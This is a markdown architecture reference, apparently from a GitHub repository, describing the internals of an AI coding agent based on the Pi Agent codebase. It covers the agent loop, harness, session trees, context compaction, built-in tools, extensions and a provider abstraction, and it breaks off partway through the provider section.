






# Hera — AI Coding Agent Architecture Reference

**Hera** is a complete architectural reference for building production-grade AI coding agents. Every detail is verified from the [Pi Agent](https://github.com/earendil-works/pi) source code (62K stars, TypeScript monorepo).

Use this to build your own coding agent, understand how existing agents work internally, or extend them with new capabilities.

---

## 1. PACKAGE STRUCTURE

```
packages/
├── ai/              → Unified LLM API (provider abstraction, streaming, types)
├── agent/           → Agent runtime (loop, harness, session, compaction)
├── coding-agent/    → Interactive CLI (tools, extensions, TUI modes, config)
└── tui/             → Terminal UI rendering engine (differential rendering)
```

**Dependency flow**: `coding-agent → agent → ai` (each package depends on the one to its left)

---

## 2. CORE TYPES (`packages/agent/src/types.ts`)

### 2.1 Message System

```typescript
// Base LLM messages (from pi-ai)
type Message = UserMessage | AssistantMessage | ToolResultMessage;

// Agent messages = LLM messages + custom app messages
type AgentMessage = Message | CustomAgentMessages[keyof CustomAgentMessages];

// Custom messages via declaration merging:
interface CustomAgentMessages {
  bashExecution: BashExecutionMessage;  // Shell command results
  custom: CustomMessage;                // Extension-injected messages
  branchSummary: BranchSummaryMessage;  // Branch summary after fork
  compactionSummary: CompactionSummaryMessage; // Compaction summary
}
```

**Declaration merging pattern**: Apps extend `CustomAgentMessages` via `declare module` to add custom message types without modifying core.

### 2.2 Agent State

```typescript
interface AgentState {
  systemPrompt: string;
  model: Model<any>;
  thinkingLevel: ThinkingLevel; // "off" | "minimal" | "low" | "medium" | "high" | "xhigh"
  tools: AgentTool<any>[];      // Assigned array is copied
  messages: AgentMessage[];     // Assigned array is copied
  readonly isStreaming: boolean;
  readonly streamingMessage?: AgentMessage;
  readonly pendingToolCalls: ReadonlySet<string>;
  readonly errorMessage?: string;
}
```

### 2.3 Agent Context (snapshot per run)

```typescript
interface AgentContext {
  systemPrompt: string;
  messages: AgentMessage[];
  tools?: AgentTool<any>[];
}
```

### 2.4 Tool Definition

```typescript
interface AgentTool<TParameters extends TSchema, TDetails> {
  name: string;
  label: string;                    // Human-readable UI label
  description: string;
  parameters: TSchema;              // TypeBox JSON schema
  prepareArguments?: (args: unknown) => Static<TParameters>; // Pre-validation shim
  execute: (
    toolCallId: string,
    params: Static<TParameters>,
    signal?: AbortSignal,
    onUpdate?: AgentToolUpdateCallback<TDetails>, // Stream partial updates
  ) => Promise<AgentToolResult<TDetails>>;
  executionMode?: "sequential" | "parallel"; // Per-tool override
}

interface AgentToolResult<T> {
  content: (TextContent | ImageContent)[]; // Returned to LLM
  details: T;                              // For logs/UI
  terminate?: boolean;                     // Stop after this batch (all must be true)
}
```

### 2.5 Agent Events

```typescript
type AgentEvent =
  | { type: "agent_start" }
  | { type: "agent_end"; messages: AgentMessage[] }
  | { type: "turn_start" }
  | { type: "turn_end"; message: AssistantMessage; toolResults: ToolResultMessage[] }
  | { type: "message_start"; message: AgentMessage }
  | { type: "message_update"; assistantMessageEvent: AssistantMessageEvent; message: AgentMessage }
  | { type: "message_end"; message: AgentMessage }
  | { type: "tool_execution_start"; toolCallId: string; toolName: string; args: unknown }
  | { type: "tool_execution_end"; toolCallId: string; toolName: string; result: AgentToolResult<any>; isError: boolean }
  | { type: "tool_execution_update"; toolCallId: string; result: AgentToolResult<any> };
```

---

## 3. AGENT LOOP (`packages/agent/src/agent-loop.ts`)

### 3.1 Architecture

The agent loop is the **heart of any coding agent**. It's a pure function that takes prompts, context, and config, and returns an event stream.

```typescript
function agentLoop(
  prompts: AgentMessage[],
  context: AgentContext,
  config: AgentLoopConfig,
  signal?: AbortSignal,
  streamFn?: StreamFn,
): EventStream<AgentEvent, AgentMessage[]>
```

### 3.2 Two-Loop Design

```
OUTER LOOP (follow-up messages)
├── Check for queued follow-up messages
├── If found → inject and continue
│
└── INNER LOOP (tool calls + steering)
    ├── 1. Inject pending steering messages
    ├── 2. streamAssistantResponse()
    │      → AgentMessage[] → Message[] (convertToLlm)
    │      → LLM call via streamFn
    │      → Emit message_start, message_update, message_end
    ├── 3. Check tool calls in response
    │      → executeToolCalls() (parallel or sequential)
    ├── 4. prepareNextTurn() → update context/model/thinking
    ├── 5. shouldStopAfterTurn() → graceful stop
    └── 6. getSteeringMessages() → inject mid-run messages
```

### 3.3 Streaming Flow

```typescript
async function streamAssistantResponse(context, config, signal, emit, streamFn) {
  // 1. Transform context (AgentMessage[] → AgentMessage[])
  let messages = config.transformContext
    ? await config.transformContext(context.messages, signal)
    : context.messages;

  // 2. Convert to LLM format (AgentMessage[] → Message[])
  const llmMessages = await config.convertToLlm(messages);

  // 3. Build LLM context
  const llmContext: Context = { systemPrompt, messages: llmMessages, tools };

  // 4. Resolve API key (supports expiring tokens)
  const apiKey = config.getApiKey
    ? await config.getApiKey(model.provider)
    : config.apiKey;

  // 5. Call LLM
  const response = await streamFn(model, llmContext, { ...config, apiKey, signal });

  // 6. Stream events
  for await (const event of response) {
    switch (event.type) {
      case "start":           // Partial message created
      case "text_delta":      // Streaming text
      case "toolcall_delta":  // Streaming tool call
      case "done":            // Final message
      case "error":           // Error
    }
  }
}
```

### 3.4 Tool Execution

**Two modes**: Sequential and Parallel

**Sequential**: Execute one tool at a time, emit results in order.

**Parallel** (default):
1. Prepare all tool calls sequentially (validate args, check beforeToolCall hook)
2. Execute all prepared tools concurrently via `Promise.all()`
3. Emit `tool_execution_end` in completion order
4. Create `ToolResultMessage` in assistant source order

**Tool preparation flow**:
```
prepareToolCall()
  → Find tool by name in context.tools
  → prepareToolCallArguments() (pre-validation shim)
  → validateToolArguments() (TypeBox schema validation)
  → beforeToolCall hook (can block execution)
  → Return PreparedToolCall or ImmediateToolCallOutcome (error)
```

**Termination**: If ALL tool results in a batch have `terminate === true`, the agent stops after that batch.

---

## 4. AGENT CLASS (`packages/agent/src/agent.ts`)

### 4.1 Purpose

Stateful wrapper around the low-level agent loop. Owns transcript, emits lifecycle events, executes tools, exposes queueing APIs.

### 4.2 Key Features

```typescript
class Agent {
  // === State ===
  state: AgentState;

  // === Queueing ===
  steer(message: AgentMessage): void;      // Inject mid-run
  followUp(message: AgentMessage): void;   // Queue after stop
  clearSteeringQueue(): void;
  clearFollowUpQueue(): void;
  hasQueuedMessages(): boolean;

  // === Lifecycle ===
  prompt(input: string | AgentMessage | AgentMessage[]): Promise<void>;
  continue(): Promise<void>;
  abort(): void;
  waitForIdle(): Promise<void>;
  reset(): void;

  // === Events ===
  subscribe(listener: (event: AgentEvent, signal: AbortSignal) => Promise<void> | void): () => void;

  // === Hooks ===
  convertToLlm: (messages: AgentMessage[]) => Message[] | Promise<Message[]>;
  transformContext?: (messages: AgentMessage[], signal?: AbortSignal) => Promise<AgentMessage[]>;
  beforeToolCall?: (context: BeforeToolCallContext, signal?: AbortSignal) => Promise<BeforeToolCallResult | undefined>;
  afterToolCall?: (context: AfterToolCallContext, signal?: AbortSignal) => Promise<AfterToolCallResult | undefined>;
  prepareNextTurn?: (signal?: AbortSignal) => Promise<AgentLoopTurnUpdate | undefined>;

  // === Config ===
  steeringMode: QueueMode;  // "all" | "one-at-a-time"
  followUpMode: QueueMode;
  toolExecution: ToolExecutionMode; // "sequential" | "parallel"
  transport: Transport;     // "sse" | "websocket" | "websocket-cached" | "auto"
}
```

### 4.3 PendingMessageQueue

```typescript
class PendingMessageQueue {
  mode: QueueMode;
  enqueue(message: AgentMessage): void;
  hasItems(): boolean;
  drain(): AgentMessage[];  // "all" → drain everything, "one-at-a-time" → oldest only
  clear(): void;
}
```

### 4.4 Run Lifecycle

```
prompt("text")
  → normalizePromptInput() → AgentMessage[]
  → runWithLifecycle()
    → Create AbortController
    → Set isStreaming = true
    → Run agentLoop()
    → Process events (update state, notify listeners)
    → On error: handleRunFailure() → emit error events
    → Finally: finishRun() → clear state, resolve promise
```

### 4.5 Event Processing

```typescript
private async processEvents(event: AgentEvent): Promise<void> {
  switch (event.type) {
    case "message_start":  → state.streamingMessage = event.message;
    case "message_update": → state.streamingMessage = event.message;
    case "message_end":    → state.streamingMessage = undefined;
                            state.messages.push(event.message);
    case "tool_execution_start": → state.pendingToolCalls.add(event.toolCallId);
    case "tool_execution_end":   → state.pendingToolCalls.delete(event.toolCallId);
    case "turn_end":       → Capture error message if present;
    case "agent_end":      → state.streamingMessage = undefined;
  }
  // Notify all listeners (awaited in order)
  for (const listener of this.listeners) await listener(event, signal);
}
```

---

## 5. AGENT HARNESS (`packages/agent/src/harness/agent-harness.ts`)

### 5.1 Purpose

Orchestration layer that wraps Agent with session management, compaction, skills, prompt templates, resource loading, and hook system.

### 5.2 Architecture

```
AgentHarness
├── Session (tree-based storage, branching, compaction)
├── Resources (skills, prompt templates)
├── Tools (Map<string, AgentTool>)
├── Hooks (event handlers)
├── Queues (steer, followUp, nextTurn)
├── Phase ("idle" | "turn" | "compact" | "fork" | "switch")
└── Agent (low-level loop)
```

### 5.3 Turn State

```typescript
interface AgentHarnessTurnState<TSkill, TPromptTemplate, TTool> {
  messages: AgentMessage[];
  resources: AgentHarnessResources<TSkill, TPromptTemplate>;
  streamOptions: AgentHarnessStreamOptions;
  sessionId: string;
  systemPrompt: string;
  model: Model<any>;
  thinkingLevel: ThinkingLevel;
  tools: TTool[];
  activeTools: TTool[];
}
```

### 5.4 Key Methods

```typescript
class AgentHarness {
  // === Core ===
  prompt(text: string, options?: { images?: ImageContent[] }): Promise<AssistantMessage>;
  skill(name: string, additionalInstructions?: string): Promise<AssistantMessage>;
  promptFromTemplate(name: string, args?: string[]): Promise<AssistantMessage>;

  // === Queueing ===
  steer(text: string, options?: { images?: ImageContent[] }): Promise<void>;
  followUp(text: string, options?: { images?: ImageContent[] }): Promise<void>;
  nextTurn(messages: AgentMessage[]): Promise<void>;

  // === Session ===
  getSession(): Session;
  switchSession(sessionId: string): Promise<void>;
  forkSession(label?: string): Promise<string>;
  compactSession(): Promise<void>;

  // === State ===
  abort(): void;
  getPhase(): AgentHarnessPhase;

  // === Events ===
  on<TType extends string>(type: TType, handler: (event: any, signal?: AbortSignal) => any): () => void;
}
```

### 5.5 Hook System

```typescript
type AgentHarnessEvent =
  | { type: "before_agent_start"; prompt: string; images?: ImageContent[];
      systemPrompt: string; resources: AgentHarnessResources }
  | { type: "before_provider_request"; model: Model<any>; sessionId: string;
      streamOptions: AgentHarnessStreamOptions }
  | { type: "before_provider_payload"; model: Model<any>; payload: unknown }
  | { type: "after_provider_response"; status: number; headers: Record<string, string> }
  | { type: "context"; messages: AgentMessage[] }
  | { type: "tool_call"; toolCallId: string; toolName: string; input: Record<string, unknown> }
  | { type: "tool_result"; toolCallId: string; toolName: string; input: Record<string, unknown>;
      content: (TextContent | ImageContent)[]; details: unknown; isError: boolean }
  | { type: "message_end"; message: AgentMessage }
  | { type: "turn_end"; message: AssistantMessage; toolResults: ToolResultMessage[] }
  | { type: "agent_end"; messages: AgentMessage[] }
  | { type: "save_point"; hadPendingMutations: boolean }
  | { type: "settled"; nextTurnCount: number }
  | { type: "queue_update"; steer: UserMessage[]; followUp: UserMessage[];
      nextTurn: AgentMessage[] };
```

### 5.6 Execute Turn Flow

```
executeTurn(turnState, text, options)
  1. Create user message from text + images
  2. Prepend nextTurnQueue messages
  3. Emit before_agent_start hook (can inject messages, override system prompt)
  4. Create AbortController
  5. Run agentLoop() with:
     - createContext(turnState)
     - createLoopConfig(getTurnState, setTurnState)
     - handleAgentEvent() as event handler
     - createStreamFn(getTurnState) as stream function
  6. On success: return last assistant message
  7. On error: emitRunFailure() → create failure message, emit events
  8. Finally: flushPendingSessionWrites()
```

### 5.7 Stream Function

```typescript
createStreamFn(getTurnState): StreamFn {
  return async (model, context, streamOptions) => {
    const auth = await this.getApiKeyAndHeaders?.(model);
    const requestOptions = await this.emitBeforeProviderRequest(
      model, sessionId, streamOptions
    );
    return streamSimple(model, context, {
      ...requestOptions,
      apiKey: auth?.apiKey,
      onPayload: async (payload) =>
        await this.emitBeforeProviderPayload(model, payload),
      onResponse: async (response) =>
        await this.emitOwn({ type: "after_provider_response", ... }),
    });
  };
}
```

---

## 6. SESSION SYSTEM (`packages/agent/src/harness/session/`)

### 6.1 Tree-Based Storage

Sessions are **append-only trees**, not linear logs. Each entry has an `id` and `parentId`.

```typescript
type SessionTreeEntry =
  | MessageEntry              // role + message content
  | ModelChangeEntry          // provider + modelId change
  | ThinkingLevelChangeEntry  // thinking level change
  | ActiveToolsChangeEntry    // active tool names change
  | CompactionEntry           // compaction summary + retained entry id
  | BranchSummaryEntry        // branch summary after fork
  | CustomEntry               // arbitrary custom data
  | CustomMessageEntry        // custom message type
  | LabelEntry                // label for an entry
  | SessionInfoEntry          // session name
  | LeafEntry;                // pointer to current leaf
```

### 6.2 Session Class

```typescript
class Session<TMetadata extends SessionMetadata> {
  getMetadata(): Promise<TMetadata>;
  getLeafId(): Promise<string | null>;
  getEntry(id: string): Promise<SessionTreeEntry | undefined>;
  getEntries(): Promise<SessionTreeEntry[]>;
  getBranch(fromId?: string): Promise<SessionTreeEntry[]>;  // Path from root to leaf
  buildContext(): Promise<SessionContext>;  // Rebuild messages from tree

  appendMessage(message: AgentMessage): Promise<string>;
  appendModelChange(provider: string, modelId: string): Promise<string>;
  appendThinkingLevelChange(thinkingLevel: string): Promise<string>;
  appendActiveToolsChange(activeToolNames: string[]): Promise<string>;
  appendCompaction(summary: string, tokensBefore: number, firstKeptEntryId: string,
                   details?: unknown): Promise<string>;
  appendBranchSummary(summary: string, fromId: string): Promise<string>;
  appendCustomEntry(customType: string, data: unknown): Promise<string>;
  appendLabel(targetId: string, label: string): Promise<string>;
  appendSessionName(name: string): Promise<string>;
}
```

### 6.3 Context Building

```typescript
function buildSessionContext(pathEntries: SessionTreeEntry[]): SessionContext {
  // Walk entries from root to leaf
  // Track: thinkingLevel, model, activeToolNames, compaction
  // If compaction found:
  //   - Add compaction summary message
  //   - Skip entries before firstKeptEntryId
  //   - Include entries after compaction
  // Else: include all entries
  return { messages, thinkingLevel, model, activeToolNames };
}
```

### 6.4 InMemorySessionStorage

```typescript
class InMemorySessionStorage<TMetadata> implements SessionStorage<TMetadata> {
  private entries: SessionTreeEntry[];
  private byId: Map<string, SessionTreeEntry>;
  private labelsById: Map<string, string>;
  private leafId: string | null;

  appendEntry(entry: SessionTreeEntry): void;
  getPathToRoot(leafId: string): SessionTreeEntry[];
  setLeafId(leafId: string): void;  // Create LeafEntry, change branch
  findEntries<TType>(type: string): Extract<SessionTreeEntry, { type: TType }>[];
}
```

---

## 7. COMPACTION SYSTEM (`packages/agent/src/harness/compaction/`)

### 7.1 Purpose

Auto-summarize old messages when context gets too long, keeping recent messages intact.

### 7.2 Settings

```typescript
interface CompactionSettings {
  enabled: boolean;
  reserveTokens: number;    // Default: 16384 (for summary prompt + output)
  keepRecentTokens: number; // Default: 20000 (recent context to keep)
}
```

### 7.3 Flow

```
prepareCompaction(entries, settings, model)
  1. Calculate context tokens from last assistant message usage
  2. Check if compaction needed: totalTokens > contextWindow - reserveTokens
  3. Find previous compaction entry (if any)
  4. Serialize conversation to text
  5. Extract file operations (read/modified files)
  6. Find split point: keep ~keepRecentTokens of recent messages
  7. Generate summary via LLM call
  8. Return CompactionResult { summary, firstKeptEntryId, tokensBefore, details }

compact(session, preparation)
  1. Append CompactionEntry to session
  2. Session rebuilds context using compaction markers
```

### 7.4 Summary Format

```
The conversation history before this point was compacted into the following summary:

<summary>
[LLM-generated summary of old messages]
</summary>
```

---

## 8. MESSAGE CONVERSION (`packages/agent/src/harness/messages.ts`)

### 8.1 Custom Message Types

```typescript
// BashExecutionMessage → user message text
function bashExecutionToText(msg: BashExecutionMessage): string {
  return `Ran \`${msg.command}\`\n\`\`\`\n${msg.output}\n\`\`\`` +
    (msg.exitCode !== 0 ? `\n\nCommand exited with code ${msg.exitCode}` : "");
}

// CustomMessage → user message with content
// BranchSummaryMessage → user message with <summary> wrapper
// CompactionSummaryMessage → user message with <summary> wrapper
```

### 8.2 convertToLlm

```typescript
function convertToLlm(messages: AgentMessage[]): Message[] {
  return messages
    .map((m) => {
      switch (m.role) {
        case "bashExecution":     → user message (unless excludeFromContext)
        case "custom":            → user message
        case "branchSummary":     → user message with <summary> wrapper
        case "compactionSummary": → user message with <summary> wrapper
        case "user":              → pass through
        case "assistant":         → pass through
        case "toolResult":        → pass through
        default:                  → filter out (undefined)
      }
    })
    .filter(m => m !== undefined);
}
```

---

## 9. TOOL SYSTEM (`packages/coding-agent/src/core/tools/`)

### 9.1 Built-in Tools

| Tool | Purpose | Key Features |
|---|---|---|
| `read` | Read file contents | Line numbers, offset/limit, binary detection |
| `write` | Create/overwrite files | Auto-create dirs, syntax check |
| `edit` | Find-and-replace | Fuzzy matching (9 strategies), context-aware |
| `bash` | Execute shell commands | Background mode, PTY, timeout, process mgmt |
| `grep` | Search file contents | Ripgrep-backed, regex, context lines |
| `find` | Find files by pattern | Glob patterns, sorted by mtime |
| `ls` | List directory contents | Detailed file info |

### 9.2 Tool Factory Pattern

```typescript
// Each tool has two creation functions:
createReadTool(cwd, options): Tool;           // Full tool with execute()
createReadToolDefinition(cwd, options): ToolDef; // Definition only (for registration)

// Tool groups:
createCodingTools(cwd, options): Tool[];      // [read, bash, edit, write]
createReadOnlyTools(cwd, options): Tool[];    // [read, grep, find, ls]
createAllTools(cwd, options): Record<ToolName, Tool>;
```

### 9.3 Tool Definition Interface

```typescript
interface ToolDefinition<TParameters, TDetails> {
  name: string;
  label: string;
  description: string;
  parameters: TSchema;          // TypeBox JSON schema
  toolSnippet: string;          // One-line description for system prompt
  createTool: (cwd: string) => AgentTool<TParameters, TDetails>;
}
```

---

## 10. EXTENSION SYSTEM (`packages/coding-agent/src/core/extensions/`)

### 10.1 Extension Interface

```typescript
interface Extension {
  name: string;
  description: string;
  version?: string;

  // Lifecycle
  activate(ctx: ExtensionContext): void | Promise<void>;
  deactivate?(): void | Promise<void>;
}
```

### 10.2 Extension Context

```typescript
interface ExtensionContext {
  // === Agent ===
  agent: Agent;
  sessionManager: SessionManager;
  modelRegistry: ModelRegistry;

  // === UI ===
  ui: ExtensionUIContext;

  // === Actions ===
  actions: ExtensionActions;

  // === Events ===
  on(type: string, handler: (event: any) => any): () => void;

  // === Registration ===
  registerTool(tool: RegisteredTool): void;
  unregisterTool(name: string): void;
  registerCommand(command: RegisteredCommand): void;
  registerShortcut(shortcut: ExtensionShortcut): void;
  registerFlag(flag: ExtensionFlag): void;
  registerProvider(config: ProviderConfig): void;

  // === Messages ===
  sendMessage(content: string | (TextContent | ImageContent)[], display?: boolean): void;
}
```

### 10.3 UI Context

```typescript
interface ExtensionUIContext {
  select(title: string, options: string[], opts?): Promise<string | undefined>;
  confirm(title: string, message: string, opts?): Promise<boolean>;
  input(title: string, placeholder?: string, opts?): Promise<string | undefined>;
  notify(message: string, type?: "info" | "warning" | "error"): void;
  setStatus(key: string, text: string | undefined): void;
  setWorkingMessage(message?: string): void;
  setWorkingIndicator(options?: WorkingIndicatorOptions): void;
  setWidget(key: string, content: string[] | ComponentFactory, options?): void;
  setFooter(factory: ComponentFactory | undefined): void;
  setHeader(factory: ComponentFactory | undefined): void;
  setTitle(title: string): void;
  custom<T>(factory: ComponentFactory, options?): Promise<T>;
}
```

### 10.4 Extension Events

```typescript
type ExtensionEvent =
  | { type: "before_agent_start" }
  | { type: "before_provider_request" }
  | { type: "before_provider_payload" }
  | { type: "after_provider_response" }
  | { type: "context" }
  | { type: "tool_call" }
  | { type: "tool_result" }
  | { type: "message_end" }
  | { type: "turn_end" }
  | { type: "agent_end" }
  | { type: "session_before_switch" }
  | { type: "session_before_fork" }
  | { type: "session_before_compact" }
  | { type: "session_before_tree" }
  | { type: "input" }
  | { type: "resources_discover" }
  | { type: "project_trust" }
  | { type: "session_shutdown" }
  | { type: "save_point" }
  | { type: "settled" }
  | { type: "queue_update" };
```

### 10.5 Extension Runner

```typescript
class ExtensionRunner {
  loadExtensions(config): LoadExtensionsResult;
  activateAll(): Promise<void>;

  emit(event: ExtensionEvent): Promise<any>;
  emitToolCall(event: ToolCallEvent): Promise<ToolCallEventResult>;
  emitContext(event: ContextEvent): Promise<ContextEventResult>;
  emitBeforeProviderRequest(event): Promise<AgentHarnessStreamOptions>;
  emitBeforeAgentStart(event): Promise<BeforeAgentStartEventResult>;
  emitMessageEnd(event: MessageEndEvent): Promise<MessageEndEventResult>;

  getRegisteredTools(): RegisteredTool[];
  getRegisteredCommands(): RegisteredCommand[];
}
```

---

## 11. AI LAYER (`packages/ai/`)

### 11.1 Provider System

**CRITICAL: Your agent MUST support multiple providers. Never hardcode to one provider.**

Pi supports 20+ providers. OpenCode supports custom providers. Hermes supports any OpenAI-compatible endpoint. Your agent should too.

#### Provider Interface (The Abstraction Layer)

```typescript
// Every provider implements this interface
interface Provider {
  name: string;
  chat(messages: Message[], tools?: Tool[]): Promise<LLMResponse>;
  chatStream(messages: Message[], tools?: Tool[]): AsyncIterator<StreamChunk>;
  listModels(): Promise<Model[]>;
  isAvailable(): Promise<boolean>;
}

// Provider configuration
